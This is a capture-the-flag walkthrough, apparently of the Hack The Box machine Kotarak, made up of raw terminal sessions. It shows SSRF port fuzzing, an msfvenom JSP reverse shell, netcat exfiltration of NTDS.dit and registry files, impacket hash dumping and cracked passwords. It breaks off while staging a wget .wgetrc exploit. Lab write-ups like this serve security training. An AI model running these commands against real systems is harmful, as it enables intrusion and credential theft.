

#### Kotarak

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [Shell Access](#shell-access)
- [Extracting Hashes](#extracting-hashes)
- [wget root exploit](#wget-root-exploit)
- [Container root](#container-root)

###### Attacker Info

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.10  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:feb0:a919  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b0:a9:19  txqueuelen 1000  (Ethernet)
        RX packets 12168  bytes 18128599 (17.2 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2637  bytes 185265 (180.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24  bytes 1272 (1.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 1272 (1.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.16  netmask 255.255.254.0  destination 10.10.14.16
        inet6 fe80::8c99:55e9:e9b5:660a  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::100e  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4  bytes 192 (192.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~#
```

###### Nmap Scan

```sh
root@kali:~# nmap -sC -sV -oA kotarak.nmap 10.10.10.55
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-13 12:04 EDT
Nmap scan report for 10.10.10.55
Host is up (0.30s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:d7:ca:0e:b7:cb:0a:51:f7:2e:75:ea:02:24:17:74 (RSA)
|   256 e8:f1:c0:d3:7d:9b:43:73:ad:37:3b:cb:e1:64:8e:e9 (ECDSA)
|_  256 6d:e9:26:ad:86:02:2d:68:e1:eb:ad:66:a0:60:17:b8 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods:
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
| http-methods:
|_  Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat/8.5.5 - Error report
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.98 seconds
root@kali:~#
```

```sh
root@kali:~# nmap -sC -sV -oA kotarak-all.nmap 10.10.10.55 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-13 12:08 EDT
Nmap scan report for 10.10.10.55
Host is up (0.17s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:d7:ca:0e:b7:cb:0a:51:f7:2e:75:ea:02:24:17:74 (RSA)
|   256 e8:f1:c0:d3:7d:9b:43:73:ad:37:3b:cb:e1:64:8e:e9 (ECDSA)
|_  256 6d:e9:26:ad:86:02:2d:68:e1:eb:ad:66:a0:60:17:b8 (ED25519)
8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods:
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
| http-methods:
|_  Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat/8.5.5 - Error report
60000/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title:         Kotarak Web Hosting
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1426.05 seconds
root@kali:~#
```

###### Web Enumeration

```
http://10.10.10.55:8080/
```


```
http://10.10.10.55:8080/manager/html
```


```
http://10.10.10.55:60000/
```


```sh
root@kali:~/kotarak# echo "this is a test file" > test.txt
root@kali:~/kotarak# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.55 - - [13/Jun/2018 12:11:35] "GET / HTTP/1.1" 200 -
```


```sh
root@kali:~/kotarak# wfuzz -c -z range,1-65535 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.9 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ
Total requests: 65535

==================================================================
ID	Response   Lines      Word         Chars          Payload
==================================================================

000025:  C=200      2 L	       0 W	      2 Ch	  "25"
000026:  C=200      2 L	       0 W	      2 Ch	  "26"
000027:  C=200      2 L	       0 W	      2 Ch	  "27"
000028:  C=200      2 L	       0 W	      2 Ch	  "28"
000029:  C=200      2 L	       0 W	      2 Ch	  "29"
000001:  C=200      2 L	       0 W	      2 Ch	  "1"
000002:  C=200      2 L	       0 W	      2 Ch	  "2"
000003:  C=200      2 L	       0 W	      2 Ch	  "3"
000004:  C=200      2 L	       0 W	      2 Ch	  "4"
000005:  C=200      2 L	       0 W	      2 Ch	  "5"
000031:  C=200      2 L	       0 W	      2 Ch	  "31"
000032:  C=200      2 L	       0 W	      2 Ch	  "32"
000033:  C=200      2 L	       0 W	      2 Ch	  "33"
000034:  C=200      2 L	       0 W	      2 Ch	  "34"
000035:  C=200      2 L	       0 W	      2 Ch	  "35"
000036:  C=200      2 L	       0 W	      2 Ch	  "36"
000037:  C=200      2 L	       0 W	      2 Ch	  "37"
000038:  C=200      2 L	       0 W	      2 Ch	  "38"
000039:  C=200      2 L	       0 W	      2 Ch	  "39"
000041:  C=200      2 L	       0 W	      2 Ch	  "41"
000078:  C=200      2 L	       0 W	      2 Ch	  "78"
000077:  C=200      2 L	       0 W	      2 Ch	  "77"
000075:  C=200      2 L	       0 W	      2 Ch	  "75"
000042:  C=200      2 L	       0 W	      2 Ch	  "42"
000043:  C=200      2 L	       0 W	      2 Ch	  "43"
000044:  C=200      2 L	       0 W	      2 Ch	  "44"
000045:  C=200      2 L	       0 W	      2 Ch	  "45"
000049:  C=200      2 L	       0 W	      2 Ch	  "49"
000046:  C=200      2 L	       0 W	      2 Ch	  "46"
000047:  C=200      2 L	       0 W	      2 Ch	  "47"
000083:  C=200      2 L	       0 W	      2 Ch	  "83"
000088:  C=200      2 L	       0 W	      2 Ch	  "88"
000087:  C=200      2 L	       0 W	      2 Ch	  "87"
000086:  C=200      2 L	       0 W	      2 Ch	  "86"
000085:  C=200      2 L	       0 W	      2 Ch	  "85"
000084:  C=200      2 L	       0 W	      2 Ch	  "84"
000048:  C=200      2 L	       0 W	      2 Ch	  "48"
000050:  C=200      2 L	       0 W	      2 Ch	  "50"
000051:  C=200      2 L	       0 W	      2 Ch	  "51"
000052:  C=200      2 L	       0 W	      2 Ch	  "52"
000096:  C=200      2 L	       0 W	      2 Ch	  "96"
000097:  C=200      2 L	       0 W	      2 Ch	  "97"
000095:  C=200      2 L	       0 W	      2 Ch	  "95"
000098:  C=200      2 L	       0 W	      2 Ch	  "98"
000094:  C=200      2 L	       0 W	      2 Ch	  "94"
000093:  C=200      2 L	       0 W	      2 Ch	  "93"
000053:  C=200      2 L	       0 W	      2 Ch	  "53"
000054:  C=200      2 L	       0 W	      2 Ch	  "54"
000055:  C=200      2 L	       0 W	      2 Ch	  "55"
000099:  C=200      2 L	       0 W	      2 Ch	  "99"
000101:  C=200      2 L	       0 W	      2 Ch	  "101"
000107:  C=200      2 L	       0 W	      2 Ch	  "107"
000100:  C=200      2 L	       0 W	      2 Ch	  "100"
000105:  C=200      2 L	       0 W	      2 Ch	  "105"
000108:  C=200      2 L	       0 W	      2 Ch	  "108"
000109:  C=200      2 L	       0 W	      2 Ch	  "109"
000106:  C=200      2 L	       0 W	      2 Ch	  "106"
000104:  C=200      2 L	       0 W	      2 Ch	  "104"
000103:  C=200      2 L	       0 W	      2 Ch	  "103"
000059:  C=200      2 L	       0 W	      2 Ch	  "59"
000112:  C=200      2 L	       0 W	      2 Ch	  "112"
000116:  C=200      2 L	       0 W	      2 Ch	  "116"
000117:  C=200      2 L	       0 W	      2 Ch	  "117"
000115:  C=200      2 L	       0 W	      2 Ch	  "115"
000111:  C=200      2 L	       0 W	      2 Ch	  "111"
000118:  C=200      2 L	       0 W	      2 Ch	  "118"
000119:  C=200      2 L	       0 W	      2 Ch	  "119"
000113:  C=200      2 L	       0 W	      2 Ch	  "113"
000056:  C=200      2 L	       0 W	      2 Ch	  "56"
000057:  C=200      2 L	       0 W	      2 Ch	  "57"
000123:  C=200      2 L	       0 W	      2 Ch	  "123"
000120:  C=200      2 L	       0 W	      2 Ch	  "120"
000121:  C=200      2 L	       0 W	      2 Ch	  "121"
000126:  C=200      2 L	       0 W	      2 Ch	  "126"
000058:  C=200      2 L	       0 W	      2 Ch	  "58"
000060:  C=200      2 L	       0 W	      2 Ch	  "60"
000061:  C=200      2 L	       0 W	      2 Ch	  "61"
000128:  C=200      2 L	       0 W	      2 Ch	  "128"
000129:  C=200      2 L	       0 W	      2 Ch	  "129"
000127:  C=200      2 L	       0 W	      2 Ch	  "127"
000136:  C=200      2 L	       0 W	      2 Ch	  "136"
000130:  C=200      2 L	       0 W	      2 Ch	  "130"
000131:  C=200      2 L	       0 W	      2 Ch	  "131"
000133:  C=200      2 L	       0 W	      2 Ch	  "133"
000135:  C=200      2 L	       0 W	      2 Ch	  "135"
000134:  C=200      2 L	       0 W	      2 Ch	  "134"
000062:  C=200      2 L	       0 W	      2 Ch	  "62"
000139:  C=200      2 L	       0 W	      2 Ch	  "139"^C
Finishing pending requests...
root@kali:~/kotarak#
```

```sh
root@kali:~/kotarak# wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.9 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ
Total requests: 65535

==================================================================
ID	Response   Lines      Word         Chars          Payload
==================================================================

000090:  C=200     11 L	      18 W	    156 Ch	  "90"
000110:  C=200     17 L	      24 W	    187 Ch	  "110"
000200:  C=200      3 L	       2 W	     22 Ch	  "200"
000320:  C=200     26 L	     109 W	   1232 Ch	  "320"
000888:  C=200     78 L	     265 W	   3955 Ch	  "888"
003306:  C=200      4 L	       7 W	    123 Ch	  "3306"
039799:  C=200      2 L	       0 W	      2 Ch	  "39799"
Fatal exception: Pycurl error 28: Operation timed out after 90000 milliseconds with 0 bytes received
root@kali:~/kotarak#
```


###### Shell Access

```sh
root@kali:~/kotarak# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.16 LPORT=80 -f war > shell.war
Payload size: 1095 bytes
Final size of war file: 1095 bytes

root@kali:~/kotarak# file shell.war
shell.war: Zip archive data, at least v2.0 to extract
root@kali:~/kotarak#
```


```sh
root@kali:~/kotarak# nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.55] 33016
ls -l
total 97
drwxr-xr-x   3 root root  4096 Jul 21  2017 backups
drwxr-xr-x   2 root root  4096 Jul  9  2017 bin
drwxr-xr-x   4 root root  1024 Aug 29  2017 boot
drwxr-xr-x  20 root root  3980 Jun 10 22:37 dev
drwxr-xr-x 105 root root  4096 Jan 18 09:07 etc
drwxr-xr-x   4 root root  4096 Jul 21  2017 home
drwxr-xr-x  24 root root  4096 Jul 21  2017 lib
drwxr-xr-x   2 root root  4096 Jul 21  2017 lib32
drwxr-xr-x   2 root root  4096 Jul 21  2017 lib64
drwxr-xr-x   2 root root  4096 Jul 21  2017 libx32
drwx------   2 root root 16384 Jul  9  2017 lost+found
drwxr-xr-x   4 root root  4096 Jul 21  2017 media
drwxr-xr-x   2 root root  4096 Jul 19  2016 mnt
drwxr-xr-x   4 root root  4096 Jul 21  2017 opt
dr-xr-xr-x 137 root root     0 Jun 10 22:36 proc
drwxrwxrwx   6 root root  4096 Sep 19  2017 root
drwxr-xr-x  27 root root   940 Jun 11 06:25 run
drwxr-xr-x   2 root root 12288 Jul 21  2017 sbin
drwxr-xr-x   2 root root  4096 Jul 21  2017 snap
drwxr-xr-x   2 root root  4096 Jul 21  2017 srv
dr-xr-xr-x  13 root root     0 Jun 10 22:37 sys
drwxrwxrwt  10 root root  4096 Jun 13 12:39 tmp
drwxr-xr-x  13 root root  4096 Jul 21  2017 usr
drwxr-xr-x  15 root root  4096 Jul 21  2017 var
lrwxrwxrwx   1 root root    29 Aug 29  2017 vmlinuz -> boot/vmlinuz-4.4.0-87-generic
lrwxrwxrwx   1 root root    29 Jul  9  2017 vmlinuz.old -> boot/vmlinuz-4.4.0-83-generic
python -c 'import pty; pty.spawn("/bin/bash")'
tomcat@kotarak-dmz:/$ ^Z
[1]+  Stopped                 nc -nlvp 80
root@kali:~/kotarak# echo $TERM
xterm-256color
root@kali:~/kotarak# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/kotarak# stty raw -echo
root@kali:~/kotarak# nc -nlvp 80
                                reset
reset: unknown terminal type unknown
Terminal type? xterm-256color

tomcat@kotarak-dmz:/$ export SHELL=bash
tomcat@kotarak-dmz:/$ stty rows 51 columns 204
tomcat@kotarak-dmz:/$ cd /home/
tomcat@kotarak-dmz:/home$ ls -l
total 8
drwxr-xr-x 4 atanas atanas 4096 Aug 29  2017 atanas
drwxr-xr-x 3 tomcat tomcat 4096 Jul 21  2017 tomcat
tomcat@kotarak-dmz:/home$ find .
.
./atanas
./atanas/.bashrc
./atanas/.profile
./atanas/user.txt
./atanas/.cache
find: ‘./atanas/.cache’: Permission denied
./atanas/.bash_logout
./atanas/.bash_history
./atanas/.sudo_as_admin_successful
./atanas/.nano
./tomcat
./tomcat/to_archive
./tomcat/to_archive/pentest_data
./tomcat/to_archive/pentest_data/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
./tomcat/to_archive/pentest_data/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
tomcat@kotarak-dmz:/home$ cd tomcat/to_archive/pentest_data/
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls -l
total 28304
-rw-r--r-- 1 tomcat tomcat 16793600 Jul 21  2017 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
-rw-r--r-- 1 tomcat tomcat 12189696 Jul 21  2017 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ file *
20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit: data
20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin: MS Windows registry file, NT/2000 or above
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ nc 10.10.14.16 443 < 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ nc 10.10.14.16 443 < 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
```

```sh
root@kali:~/kotarak# nc -nlvp 443 > 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.55] 37512
root@kali:~/kotarak# nc -nlvp 443 > 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.55] 37516
root@kali:~/kotarak# file 2017072111463*
20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit: Extensible storage engine DataBase, version 0x620, checksum 0x16d44752, page size 8192, DirtyShutdown, Windows version 6.1
20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin: MS Windows registry file, NT/2000 or above
root@kali:~/kotarak#
```

###### Extracting Hashes

[`Extracting Hashes and Domain Info From ntds.dit`](https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/)

```sh
root@kali:~/kotarak# impacket-secretsdump -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit LOCAL
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
Administrator:aes256-cts-hmac-sha1-96:6c53b16d11a496d0535959885ea7c79c04945889028704e2a4d1ca171e4374e2
Administrator:aes128-cts-hmac-sha1-96:e2a25474aa9eb0e1525d0f50233c0274
Administrator:des-cbc-md5:75375eda54757c2f
WIN-3G2B0H151AC$:aes256-cts-hmac-sha1-96:84e3d886fe1a81ed415d36f438c036715fd8c9e67edbd866519a2358f9897233
WIN-3G2B0H151AC$:aes128-cts-hmac-sha1-96:e1a487ca8937b21268e8b3c41c0e4a74
WIN-3G2B0H151AC$:des-cbc-md5:b39dc12a920457d5
WIN-3G2B0H151AC$:rc4_hmac:668d49ebfdb70aeee8bcaeac9e3e66fd
krbtgt:aes256-cts-hmac-sha1-96:14134e1da577c7162acb1e01ea750a9da9b9b717f78d7ca6a5c95febe09b35b8
krbtgt:aes128-cts-hmac-sha1-96:8b96c9c8ea354109b951bfa3f3aa4593
krbtgt:des-cbc-md5:10ef08047a862046
krbtgt:rc4_hmac:ca1ccefcb525db49828fbb9d68298eee
WIN2K8$:aes256-cts-hmac-sha1-96:289dd4c7e01818f179a977fd1e35c0d34b22456b1c8f844f34d11b63168637c5
WIN2K8$:aes128-cts-hmac-sha1-96:deb0ee067658c075ea7eaef27a605908
WIN2K8$:des-cbc-md5:d352a8d3a7a7380b
WIN2K8$:rc4_hmac:160f6c1db2ce0994c19c46a349611487
WINXP1$:aes256-cts-hmac-sha1-96:347a128a1f9a71de4c52b09d94ad374ac173bd644c20d5e76f31b85e43376d14
WINXP1$:aes128-cts-hmac-sha1-96:0e4c937f9f35576756a6001b0af04ded
WINXP1$:des-cbc-md5:984a40d5f4a815f2
WINXP1$:rc4_hmac:6f5e87fd20d1d8753896f6c9cb316279
WIN2K31$:aes256-cts-hmac-sha1-96:f486b86bda928707e327faf7c752cba5bd1fcb42c3483c404be0424f6a5c9f16
WIN2K31$:aes128-cts-hmac-sha1-96:1aae3545508cfda2725c8f9832a1a734
WIN2K31$:des-cbc-md5:4cbf2ad3c4f75b01
WIN2K31$:rc4_hmac:cdd7a7f43d06b3a91705900a592f3772
WIN7$:aes256-cts-hmac-sha1-96:b9921a50152944b5849c706b584f108f9b93127f259b179afc207d2b46de6f42
WIN7$:aes128-cts-hmac-sha1-96:40207f6ef31d6f50065d2f2ddb61a9e7
WIN7$:des-cbc-md5:89a1673723ad9180
WIN7$:rc4_hmac:24473180acbcc5f7d2731abe05cfa88c
atanas:aes256-cts-hmac-sha1-96:933a05beca1abd1a1a47d70b23122c55de2fedfc855d94d543152239dd840ce2
atanas:aes128-cts-hmac-sha1-96:d1db0c62335c9ae2508ee1d23d6efca4
atanas:des-cbc-md5:6b80e391f113542a
[*] Cleaning up...
root@kali:~/kotarak#
```

```sh
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ip neigh
10.10.10.2 dev eth0 lladdr 00:50:56:8f:64:fe DELAY
10.0.3.133 dev lxcbr0 lladdr 00:16:3e:c9:bd:b1 STALE
fe80::250:56ff:fe8f:64fe dev eth0 lladdr 00:50:56:8f:64:fe router STALE
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$
```

```sh
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ which nc
/bin/nc
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ /bin/nc 10.0.3.133 22
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
^C
Protocol mismatch.
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$
```

```sh
root@kali:~/kotarak# vim hashes
root@kali:~/kotarak# cat hashes
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
root@kali:~/kotarak# awk -F: '{print $4}' hashes
e64fe0f24ba2489c05e64354d74ebd11
2b576acbe6bcfda7294d6bd18041b8fe
root@kali:~/kotarak#
```


[`ntlm-decrypter`](https://hashkiller.co.uk/ntlm-decrypter.aspx)

```
e64fe0f24ba2489c05e64354d74ebd11 NTLM : f16tomcat!
2b576acbe6bcfda7294d6bd18041b8fe NTLM : Password123!
```

```sh
tomcat@kotarak-dmz:~$ su - atanas
Password:
atanas@kotarak-dmz:~$ ls -l
total 4
-rw-rw---- 1 atanas atanas 33 Jul 19  2017 user.txt
atanas@kotarak-dmz:~$ cat user.txt
93f844f50491ef797c9c1b601b4bece8
atanas@kotarak-dmz:~$
```

###### wget root exploit

```sh
atanas@kotarak-dmz:~$ cd /root
atanas@kotarak-dmz:/root$ ls -l
total 8
-rw------- 1 atanas root 333 Jul 20  2017 app.log
-rw------- 1 atanas root  66 Aug 29  2017 flag.txt
atanas@kotarak-dmz:/root$ cat app.log
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
atanas@kotarak-dmz:/root$
```

```sh
root@kali:~/kotarak# searchsploit wget
------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                     |  Path
                                                                                                                                                                   | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
GNU Wget 1.x - Multiple Vulnerabilities                                                                                                                            | exploits/linux/remote/24813.pl
GNU Wget < 1.18 - Access List Bypass / Race Condition                                                                                                              | exploits/multiple/remote/40824.py
GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution                                                                                                    | exploits/linux/remote/40064.txt
GNU wget - Cookie Injection                                                                                                                                        | exploits/linux/local/44601.txt
WGet 1.x - Insecure File Creation Race Condition                                                                                                                   | exploits/linux/local/24123.sh
feh 1.7 - '--wget-Timestamp' Remote Code Execution                                                                                                                 | exploits/linux/remote/34201.txt
wget 1.10.2 - Unchecked Boundary Condition Denial of Service                                                                                                       | exploits/multiple/dos/2947.pl
wget 1.9 - Directory Traversal                                                                                                                                     | exploits/multiple/remote/689.pl
------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Shellcode Title                                                                                                                                                   |  Path
                                                                                                                                                                   | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Linux/x86 - execve wget + Mutated + Null-Free Shellcode (96 bytes)                                                                                                 | shellcodes/linux_x86/43739.c
Linux/x86 - execve(_/usr/bin/wget__ _aaaa_) Shellcode (42 bytes)                                                                                                   | shellcodes/linux_x86/13702.c
------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
root@kali:~/kotarak#
```

```sh
root@kali:~/kotarak# searchsploit -m exploits/linux/remote/40064.txt
  Exploit: GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution
      URL: https://www.exploit-db.com/exploits/40064/
     Path: /usr/share/exploitdb/exploits/linux/remote/40064.txt
File Type: UTF-8 Unicode text, with CRLF line terminators

Copied to: /root/kotarak/40064.txt


root@kali:~/kotarak#
```



```sh
atanas@kotarak-dmz:/root$ cd /dev/shm/
atanas@kotarak-dmz:/dev/shm$ cat <<_EOF_>.wgetrc
> post_file = /etc/shadow
> output_document = /etc/cron.d/wget-root-shell
> _EOF_
atanas@kotarak-dmz:/dev/shm$ cat .wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
atanas@kotarak-dmz:/dev/shm$
```

```sh
atanas@kotarak-dmz:/dev/shm$ /sbin/ifconfig
eth0      Link encap:Ethernet  HWaddr 00:50:56:8f:0a:30
          inet addr:10.10.10.55  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:fe8f:a30/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:fe8f:a30/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:286852 errors:0 dropped:63 overruns:0 frame:0
          TX packets:165889 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:26996980 (26.9 MB)  TX bytes:88726061 (88.7 MB)
